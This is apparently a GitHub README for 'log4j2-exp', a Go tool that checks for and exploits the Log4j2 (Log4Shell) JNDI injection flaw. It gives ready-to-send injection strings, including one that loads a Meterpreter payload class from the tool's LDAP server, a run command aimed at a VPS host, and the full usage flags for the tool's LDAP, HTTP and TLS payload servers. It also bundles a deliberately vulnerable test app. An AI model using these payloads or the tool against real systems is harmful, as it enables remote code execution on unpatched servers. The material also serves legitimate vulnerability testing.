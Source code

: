 # log4j2-exp
 * Check and exploit log4j2 vulnerability with single Go program. 
 * You don't need to install anything except develop it.
 * It supports ldaps and https server for other usage.

## Run
   ```log4j2-exp.exe -host "VPS IP address"```
  

## Check
 * run the log4j2-exp server
 * send ```${jndi:ldap://127.0.0.1/nop.class}```

## Exploit
 * run the log4j2-exp server
 * put your class file to the payload directory
 * send ```${jndi:ldap://127.0.0.1/meterpreter.class}```
 * will open source after some time

## VulApp
 * VulApp is a vulnerable Java program that use log4j2 package.\
 * You can use it for develop this project easily.\
 * ```java -jar vulapp.jar ${jndi:ldap://127.0.0.1/calc.class}```

## Help
  ``` 
  :::        ::::::::   ::::::::      :::   ::::::::::: ::::::::
  :+:       :+:    :+: :+:    :+:    :+:        :+:    :+:    :+:
  +:+       +:+    +:+ +:+          +:+ +:+     +:+          +:+
  +#+       +#+    +:+ :#:         +#+  +:+     +#+        +#+
  +#+       +#+    +#+ +#+   +#+# +#+#+#+#+#+   +#+      +#+
  #+#       #+#    #+# #+#    #+#       #+# #+# #+#     #+#
  ########## ########   ########        ###  #####     ##########

                           https://github.com/For-ACGN/log4j2-exp

Usage of log4j2-exp.exe:
  -dir string
        payload(java class) directory (default "payload")
  -host string
        server IP address or domain name (default "127.0.0.1")
  -http-addr string
        http server address (default ":8080")
  -http-net string
        http server network (default "tcp")
  -ldap-addr string
        ldap server address (default ":389")
  -ldap-net string
        ldap server network (default "tcp")
  -tls
        enable ldaps and https server
  -tls-cert string
        tls certificate file path (default "cert.pem")
  -tls-key string
        tls private key file path (default "key.pem")
  ```


## Screenshot
![](https://github.com/For-ACGN/log4j2-exp/raw/main/screenshot.png)
